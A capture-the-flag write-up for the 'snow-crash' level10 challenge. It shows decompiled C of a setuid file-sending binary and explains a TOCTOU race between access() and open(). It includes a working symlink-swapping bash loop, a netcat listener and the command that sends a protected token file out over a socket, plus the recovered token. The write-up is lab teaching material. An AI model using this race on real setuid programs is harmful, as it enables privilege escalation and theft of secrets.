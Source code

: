 # foothold

This is the bonus, so I will skip the basic stuff in these READMEs, because I
assume you are here, not copying, but seeing how others did it, do you?

And if you are in the bonus, you know the basic stuff, do you?

So, again, a binary in the home, with a token file.

Reverse it and... Pretty simple binary:
```c
int main(int argc,char **argv)
{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  undefined4 *in_stack_00000008;
  char *file;
  char *host;
  int fd;
  int ffd;
  int rc;
  char buffer [4096];
  sockaddr_in sin;
  undefined local_1024 [4096];
  sockaddr local_24;
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*in_stack_00000008);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar6 = (char *)in_stack_00000008[1];
  __cp = (char *)in_stack_00000008[2];
  iVar2 = access((char *)in_stack_00000008[1],4);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[11] = '\0';
    local_24.sa_data[12] = '\0';
    local_24.sa_data[13] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }
  else {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar2;
}
```

It checks if it has access to the file you provided in the first argument with
`access` (it checks for `R_OK`), and opens a socket with `socket(2,1,0);`,
let's break this down:
- `2`: AF_INET.
- `1`: SOCK_STREAM.
- `0`: protocol value, not really needed for AF_INTET.

Then it initializes the `sockaddr` struct, it sets the IP to the second arugment
(`argv[2]`), and the port to `6969`, and then connects.

Then it tries to read 4096 bytes from the provided file, and write them to the
socket, after that, it disconnects.

# exploit

Pretty simple exploit, this vulnerability is known as TOCTOU
(Time-Of-Check-To-Time-Of-Use), or race condition.

Basically, there's a small gap between the access and the open calls, so, I
will create a symlink to a file I own, `access` will success, and after that,
I will swap the symlink for one pointing to `token`.

This works because `access` checks permissions for the Original UID, but `open`
uses the Effective UID.

Let's create a simple script in `/dev/shm/rc.sh` for those symlinks:
```bash
#!/bin/bash

touch /tmp/fake

while true; do
    ln -sf /tmp/fake /tmp/token
    ln -sf /home/user/level10/token /tmp/token
done
```

So, indeed, I ended up with three ssh sessions, one for running the binary until
the race condition works, other for listening to it, and other one for running
the script.

I just need run the script, and open a listener:
```bash
# The snow-crash machine has BSD netcat :vomit:, so I'll use nc.traditional
nc.traditional -lvvnp 6969
```

And execute the binary, until it works:
```bash
./level10 /tmp/token 127.0.0.1
```

After a few times, I shoud have probably looped the execution, but who cares now.

It worked! And I get the following bytes:
`.*( )*.` and `woupa2yuojeeaaed06riuj63c`.

It's possible that you will receive only the banner (`.*( )*.`), that's because
the race condition evaded the `access` successfully, but opened the fake file,
so the token is not returned, just keep trying.

This one was tricker than the usuals, but still easy.

Now the usual, `su flag10` and `getflag`.
